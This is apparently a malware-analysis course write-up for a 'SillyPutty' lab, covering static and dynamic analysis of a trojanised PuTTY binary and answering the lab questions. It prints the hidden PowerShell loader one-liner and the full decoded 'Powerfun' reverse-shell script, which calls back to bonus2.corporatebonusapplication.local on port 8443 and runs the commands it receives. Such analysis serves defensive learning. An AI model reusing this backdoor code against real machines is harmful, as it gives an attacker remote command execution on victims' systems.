 # Challenge 1: SillyPutty

* Basic static analysis:

  ```cmd
  # extract putty.exe
  sha256sum.exe putty.exe

  md5sum.exe putty.exe

  FLOSS.exe -n 6 putty.exe > puttystrings.txt
  # filter strings with length of 6 or more
  ```

  <details>
  <summary>Interesting strings found from FLOSS:</summary>

    ```text
    PuTTY downstream no longer available
    SSHCONNECTION@putty.projects.tartarus.org-2.0-
    Host does not exist
    Software\SimonTatham\PuTTY\Jumplist
    Host key did not appear in manually configured list
    MakeDragList
    ioctlsocket
    closesocket
    Network error: Socket operation on non-socket
    Network error: Protocol wrong type for socket
    Unable to parse Diffie-Hellman reply packet
    Unable to parse ECDH reply packet
    Unable to parse RSA public key packet
    Bad SSH-1 public key packet
    Unable to parse Diffie-Hellman group packet
    Incorrect CRC received on packet
    Incorrect MAC received on packet
    Invalid padding length on received packet
    Server sent truncated SSH_MSG_USERAUTH_INFO_REQUEST packet
    Truncated GLOBAL_REQUEST packet
    Truncated CHANNEL_OPEN_CONFIRMATION packet
    Truncated CHANNEL_OPEN packet
    Truncated CHANNEL_OPEN_FAILURE packet
    Truncated CHANNEL_REQUEST("x11-req") packet
    spoolss.dll
    winmm.dll
    sspicli.dll
    shcore.dll
    wship6.dll
    crypt32.dll
    secur32.dll
    user32.dll
    comctl32.dll
    shell32.dll
    Shell32.dll
    kernel32.dll
    wsock32.dll
    advapi32.dll
    ws2_32.dll
    4<(::DataSpace/Storage/MSCompressed/Content
    X,::DataSpace/Storage/MSCompressed/ControlData
    )::DataSpace/Storage/MSCompressed/SpanInfo
    /::DataSpace/Storage/MSCompressed/Transform/List
    H&i::DataSpace/Storage/MSCompressed/Transform/{7FC28940-9D31-11D0-9B27-00A0C91E9C7C}/InstanceData/ResetTable
    powershell.exe -nop -w hidden -noni -ep bypass "&(::create((New-Object System.IO.StreamReader(New-Object 
    System.IO.Compression.GzipStream((New-Object 
    System.IO.MemoryStream(,[System.Convert]::FromBase64String('<base64-encoded string>'))),[System.IO.
    Compression.CompressionMode]::Decompress))).ReadToEnd()))"
    GDI32.dll
    ```

  </details>

  * One of the strings found from ```FLOSS``` shows a base64-encoded payload - when decoded, it gives us a script for 'Powerfun':

    ```ps
    # Powerfun - Written by Ben Turner & Dave Hardy

    function Get-Webclient 
    {
        $wc = New-Object -TypeName Net.WebClient
        $wc.UseDefaultCredentials = $true
        $wc.Proxy.Credentials = $wc.Credentials
        $wc
    }
    function powerfun 
    { 
        Param( 
        [String]$Command,
        [String]$Sslcon,
        [String]$Download
        ) 
        Process {
        $modules = @()  
        if ($Command -eq "bind")
        {
            $listener = [System.Net.Sockets.TcpListener]8443
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 
        if ($Command -eq "reverse")
        {
            $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
        }

        $stream = $client.GetStream()

        if ($Sslcon -eq "true") 
        {
            $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
            $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
            $stream = $sslStream 
        }

        [byte[]]$bytes = 0..20000|%{0}
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        if ($Download -eq "true")
        {
            $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
            $stream.Write($sendbytes,0,$sendbytes.Length)
            ForEach ($module in $modules)
            {
                (Get-Webclient).DownloadString($module)|Invoke-Expression
            }
        }

        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        $listener.Stop()
        }
    }

    powerfun -Command reverse -Sslcon true
    ```
  
  * This script seems to be a PowerShell backdoor script, and it connects to "bonus2.corporatebonusapplication.local".

  * For further static analysis, we can use tools like ```PEview```, ```PEStudio``` and ```capa```.

  * In ```PEView```, while viewing the Import Address Table, under ```IMAGE_SECTION_HEADER.text```, we can notice that Virtual Size is 95F6D (614253 in decimal) and Size of Raw Data is 96000 (614400) - as Virtual Size is lesser here, this is not a packed binary. (we can view this info in ```PEStudio``` too)

  * In ```PEStudio```, we can view Sections, Imports, Strings and other parts for more context.

  * Under Imports, we can view certain flagged ones like ```GetDesktopWindow```, ```GetWindowTextA```, ```RegCreateKeyA```, ```DeleteFileA``` and ```GetClipboardData``` - this may or may not be used for Putty.

* Basic dynamic analysis:

  * Without internet connection, if we detonate the malware, a PowerShell window pops up in the background and closes, but the rest of the Putty functionality is the same.

  * By running ```sudo wireshark``` on Remnux, we can confirm that when we run the binary, it sends a DNS query to 'bonus2.corporatebonusapplication.local' - as we do not have Internet connection it does not work.

  * Running the malware with internet connection also has the same results - it tries to connect to the domain on port 8443 using TCP connection (HTTPS).

  * After resetting FlareVM, we can use ```procmon``` for host-based indicators as well.

  * Detonate the malware and in ```procmon```, add filters for 'Process Name - putty.exe', 'Operation contains File' - this gives us some more context.

  * As we have a domain name now, we can try to spoof it and trick the binary - edit the ```/etc/hosts``` file in Windows and map localhost to the malicious domain.

  * Now in ```procmon```, add filter for 'Process Name is putty.exe' and then run the binary.

  * After running it, we can use the process ID and filter by Parent PID as well - this way, we can see the ```powershell.exe``` processes as well.

  * If we start listening on the callback port on Windows itself by ```ncat --nvlp 8443```, and then run the binary - this prints the domain name and some other data.

---

* Basic static analysis:

  * What is the SHA256 hash of the sample? - 0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83
  * What architecture is this binary? - x86 (32-bit)
  * Are there any results from submitting the SHA256 hash to VirusTotal? - 58/71 flagged as malicious
  * Describe the results of pulling the strings from this binary. Record and describe any strings that are potentially interesting. Can any interesting information be extracted from the strings? - base64-encoded Powerfun script, gives domain 'bonus2.corporatebonusapplication.local'
  * Describe the results of inspecting the IAT for this binary. Are there any imports worth noting? - GetDesktopWindow, GetWindowTextA, RegCreateKeyA, DeleteFileA, GetClipboardData
  * Is it likely that this binary is packed? - No

* Basic dynamic analysis:

  * Describe initial detonation. Are there any notable occurrences at first detonation? Without internet simulation? With internet simulation? - In both cases, running the malware launches PowerShell briefly
  * From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this? - Powershell one-liner, found both in static & dynamic analysis
  * What is the DNS record that is queried at detonation? - bonus2.corporatebonusapplication.local
  * What is the callback port number at detonation? - 8443
  * What is the callback protocol at detonation? - SSL/TLS (HTTP, 8443)
  * How can you use host-based telemetry to identify the DNS record, port, and protocol? - Procmon, TCPView or Wireshark
  * Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn? - shell cannot spawn without a proper certificate, as HTTPS is being used here.
